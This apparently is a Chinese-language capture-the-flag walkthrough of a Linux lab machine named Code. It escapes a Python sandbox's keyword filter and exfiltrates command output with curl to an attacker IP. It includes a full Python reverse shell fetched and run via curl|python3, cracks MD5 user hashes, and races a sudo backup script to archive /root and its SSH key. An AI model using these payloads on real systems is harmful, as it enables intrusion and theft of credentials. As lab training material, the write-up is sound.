

# Code

:::info

Difficulty: Easy

Operating System: Linux

:::

## ENTRY POINT

```plaintext
10.10.11.62
```

## 资产探测

```shell
Nmap scan report for bogon (10.10.11.62)
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 37.522 days (since Mon Feb 17 06:49:47 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 5000 Python Code Editor

尝试直接访问



看起来就是一个 Python 的在线编辑和运行的环境

尝试执行 import 语句


看起来有关键词黑名单检测，基本检测下来包含有

- import
- system
- popen
- subprocess
- exec
- open
- read
- eval

尝试查看当前的环境中有哪些变量

```python
> print(dir())
['code', 'keyword', 'old_stdout', 'redirected_output']
```

这些变量没啥有用的信息

参考有关 Pyjail 的相关文章，决定从 str 的内置类入手

```python
> print("".__class__.__base__.__subclasses__())
......

> for index,i in enumerate("".__class__.__base__.__subclasses__()):
>    if "o" + "s." in str(i):
>        print(index, i)
132 <class 'os._wrap_close'>

> print("".__class__.__base__.__subclasses__()[132])
<class 'os._wrap_close'>
```

然后从__globals__就可以得到 os 库

```python
> print("".__class__.__base__.__subclasses__()[132].__init__.__globals__)
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n - all functions from posix or nt, e.g. unlink, stat, etc.\n - os.path is either posixpath......
```

得到 os 库之后，就可以执行命令了

```python
> print("".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"])
<built-in function system>
```

由于 `print(os.system())` 不会直接返回命令的执行结果，所以可以尝试通过 curl 和 wget 进行数据传输

```shell
# 服务器
> func = "".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"]

> print(func("curl 10.10.16.31:9999/`whoami`"))

# Kali
┌──(randark ㉿ kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.62] 47658
GET /app-production HTTP/1.1
Host: 10.10.16.31:9999
User-Agent: curl/7.68.0
Accept: */*
```

那么就简单了，用 Python 写一个反连的 Python 脚本

```python
import socket,subprocess,os,pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.31", 9999))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("bash")
```

然后将脚本传输到服务器上并执行

```python
> func = "".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"]
> func("curl 10.10.16.31/reverse-shell.py | python3")
```

即可得到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[20:23:20] Welcome to pwncat 🐈!
[20:23:41] received connection from 10.10.11.62:42490
[20:23:45] 10.10.11.62:42490: registered new host w/ db
(local) pwncat$ back
(remote) app-production@code:/home/app-production/app$ whoami
app-production
```

## FLAG - USER

```flag title="/home/app-production/user.txt"
e235e6d55c14057f3b7ccc3da6845834
```

## 提权至 martin

上传 `linpeas.sh` 之后分析结果

```plaintext
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(martin) gid=1000(martin) groups=1000(martin)
......

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/home/app-production/.gnupg/trustdb.gpg
/home/app-production/.gnupg/pubring.kbx
/home/app-production/app/reverse-shell.py.1
/home/app-production/app/reverse-shell.py.2
/home/app-production/app/instance/database.db

╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             pts/1    10.10.16.16      Tue Mar 25 15:08:17 +0000 2025
martin           pts/0    10.10.16.17      Wed Mar 26 06:46:27 +0000 2025
```

发现一个数据库文件

```shell
(remote) app-production@code:/tmp$ file /home/app-production/app/instance/database.db
/home/app-production/app/instance/database.db: SQLite 3.x database, last written using SQLite version 3031001
```

将其下载下来读取

```shell
┌──(randark ㉿ kali)-[~]
└─$ sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
code  user
sqlite> SELECT * FROM code;
1|1|print("Functionality test")|Test
sqlite> SELECT * FROM user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

尝试查询哈希

|               Hash               |     Plaintext      |
| :------------------------------: | :----------------: |
| 759b74ce43947f5f4c91aeddc3e5bad3 |    development     |
| 3de6f30c4a09c27fc71932bfc68474be | nafeelswordsmaster |

那么就可以得到 martin 用户的权限

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs martin@10.10.11.62
[20:39:28] Welcome to pwncat 🐈!
Password: ******************
[20:39:38] 10.10.11.62:22: registered new host w/ db
(local) pwncat$ back
(remote) martin@code:/home/martin$ whoami
martin
```

## 提权至 root

分析当前用户的 sudo 可执行文件

```shell
(remote) martin@code:/home/martin$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

查看脚本的内容

```shell title="/usr/bin/backy.sh"
#!/bin/bash

if [[$# -ne 1]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[! -f "$json_file"]]; then
    /usr/bin/echo "Error: File'$json_file'not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./";""))'"$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [["$path" == $allowed_path*]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

经过核对，程序 `/usr/bin/backy` 是 [vdbsh/backy: tiny multiprocessing utility for file backups](https://github.com/vdbsh/backy)

那么也就是尝试使用 `/usr/bin/backy` 构造任意文件读取

尝试使用条件竞争绕过脚本中关于路径穿越的安全限制

准备一份恶意的 json 并转换为 json

```json
{
    "destination": "/home/martin/Backup",
    "multiprocessing": true,
    "verbose_log": true,
    "directories_to_archive": [
        "/var/../../../../root/"
    ]
}
```

转换为 base64 之后准备攻击

```shell
# SSH Session 1
martin@code:~$ for i in $(seq 100000);do echo ewoJImRlc3RpbmF0aW9uIjogIi9ob21lL21hcnRpbi9CYWNrdXAiLAoJIm11bHRpcHJvY2Vzc2luZyI6IHRydWUsCgkidmVyYm9zZV9sb2ciOiB0cnVlLAoJImRpcmVjdG9yaWVzX3RvX2FyY2hpdmUiOiBbCgkJIi92YXIvLi4vLi4vLi4vLi4vcm9vdC8iCgldCn0= | base64 -d > 1.json ;done

# SSH Session 2
martin@code:~$ mkdir /home/martin/Backup
martin@code:~$ sudo /usr/bin/backy.sh 1.json
2025/03/26 12:55:06 🍀 backy 1.2
2025/03/26 12:55:06 📋 Working with 1.json ...
2025/03/26 12:55:06 💤 Nothing to sync
2025/03/26 12:55:06 📤 Archiving: [/var/../../../../root]
2025/03/26 12:55:06 📥 To: /home/martin/Backup ...
2025/03/26 12:55:06 📦
tar: Removing leading `/var/../../../../' from member names
/var/../../../../root/
/var/../../../../root/.local/
/var/../../../../root/.local/share/
/var/../../../../root/.local/share/nano/
/var/../../../../root/.local/share/nano/search_history
/var/../../../../root/.sqlite_history
/var/../../../../root/.profile
/var/../../../../root/scripts/
/var/../../../../root/scripts/cleanup.sh
/var/../../../../root/scripts/backups/
/var/../../../../root/scripts/backups/task.json
/var/../../../../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/var/../../../../root/scripts/database.db
/var/../../../../root/scripts/cleanup2.sh
/var/../../../../root/.python_history
/var/../../../../root/root.txt
/var/../../../../root/.cache/
/var/../../../../root/.cache/motd.legal-displayed
/var/../../../../root/.ssh/
/var/../../../../root/.ssh/id_rsa
/var/../../../../root/.ssh/authorized_keys
/var/../../../../root/.bash_history
/var/../../../../root/.bashrc
```

即可得到`/root`目录下的所有文件

## FLAG - ROOT

```flag title="/root/root.txt"
892e16b9e30ca207f83c926f6f76cd43
```
